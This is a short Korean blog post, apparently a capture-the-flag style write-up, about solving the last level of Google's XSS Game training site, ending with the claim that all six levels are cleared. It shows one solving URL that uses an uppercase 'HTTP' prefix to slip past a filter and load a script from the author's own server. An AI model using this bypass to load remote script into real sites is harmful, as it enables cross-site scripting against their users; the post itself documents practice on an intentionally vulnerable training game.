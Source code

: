 마지막 문제에서 Client Side Script 에서 문제가 있었던 것인지, 이론상으론 될 것 같은데 문제가 풀리지 않아 오래 고민을 했다.  

그런데 문제를 다 푼 다음에 도대체 왜 안되는지를 모르겠어서, 처음에 시도한 방법을 다시 해 보았더니 이번엔 문제가 풀렸다.  

```
http://xss-game.appspot.com/level6/frame#HTTP://내서버의주소/test.js
```

![]({{ site.baseurl }}/images/xssgame/xssgame_20.PNG)

기준이 따로 있는건지 뭔지 모르겠다.  

어찌됬든 6문제 모두 CLEAR!  
